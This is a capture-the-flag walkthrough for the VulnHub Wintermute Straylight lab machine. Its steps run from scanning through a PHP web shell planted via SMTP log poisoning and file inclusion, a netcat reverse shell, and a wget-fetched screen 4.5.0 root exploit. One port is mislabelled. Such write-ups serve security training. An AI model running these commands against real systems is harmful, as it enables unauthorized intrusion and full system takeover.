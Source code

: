 # VulnHub Walkthrough: ❄ Wintermute - Straylight

## Part 1

1. Find Target (computer/device):
     * `netdiscover -r <Kali IP>`

2. On your Kali machine, map straylight's IP to a domain to shorten the host name:
     * `nano /etc/hosts` then add the following line `<target IP> stray.light`

3. Scan the Target network:
     * `nmap -A -p0-65535 <007 IP>`: "-A", Enables OS detection, version detection, script-scanning, and trace-route
     * Open ports: *SMTP*(25), *SSH*(80), & *ppp* (3000) - */lua/login.lua?referer=/*

4. Run gobuster (helps you find extra directories/files):
     * `gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -e -t 20 -u http://stray.light/`
     * *dir*: Uses directory/file bruteforcing mode
     * *-w*: Path to wordlist
     * *-t*: number of concurrent threads

5. We find *http://stray.light/freeside/*

## Part 2

6. Go to *http://stray.light:3000/lua/login.lua?referer/*:
     * Login using *admin*:*admin*
     * Go to /turing-bolo/

7. PHP Injection: We see '*.log*' files which helps determine a Local File Inclusion (LFI) vulnerability
      * We are able to do */bolo=/var/log/mail*

8. Note that to inject a command prompt onto php: `<?php echo shell_exec($_GET['cmd']);?>`

9. Just use the *SMTP* server to mail the php injection code:
     * Either use telnet (`telnet stray.light 25`) or nc (`nc stray.light 25`)
     * `HELO hacker`
     * `MAIL FROM: "hacker <?php ?>`, replace <?php ?> with the code shown in step 8.
     * `RCPT TO: root`
     * `DATA`
     * `.`

## Part 3

10. View source code for `php?bolo=/var/log/mail&cmd=id`
     * notice php injection was successfully received by root

11. Check if netcat is installed - `.php?bolo=/var/log/mail&cmd=which nc` --> */bin/nc* is shown/returned

12. (**Do step 13 first**) Recall start listener on attack box to catch shell: (linux) `nc <ip> <port> -e /bin/bash` | (windows) `nc <ip> <port> -e cmd.exe`:
   * Example: `nc 10.0.0.1 1234 -e /bin/bash`.
  * To use ^ this (safely) for our case we have to make sure its in url encoded format --> so put %20 inbetween spaces - Example: `&cmd=nc%2010.0.0.1%201234%20-e%20/bin/bash`

13. Before running step 12, make sure you start up a listener: `nc -lvnp 9001`

## Part 4

14. Once connected, run `id` to verify

15. Spawn in a shell! --> `python -c "import pty; pty.spawn('/bin/bash')"`

16. Check out passwd file: `cat /etc/passwd`
     * Notice 2 users have /bin/bash permissions: ***wintermute*** & ***turing-police***
     * We notice that they're both useless for Wintermute - Straylight: `ls -halt /home/wintermute`(empty), `ls -halt /home/turing-police` (empty)

17. Check for any unordinary programs/binaries installed on system:
     * `find / -perm -4000 -type f -ls 2>/dev/null`, notice unusual "*screen-4.5.0*"

18. Scan for exploits using searchsploit:
     * `searchsploit screen 4.5.0` --> returns 1 exploit
     * Mirror/Download the exploit file onto Kali: `searchsploit -m 41154`

19. Create a simple python server on Kali so the target machine can access the exploit file (41154.sh)

## Part 5

20. On the target box:
     * `cd /tmp` --> `wget http://<Kali IP>:80/41154.sh`
     * `./41154.sh`

21. Cash, you're in.
     * `cd /root` --> `ls -halt` (I think the flag is here somewhere)
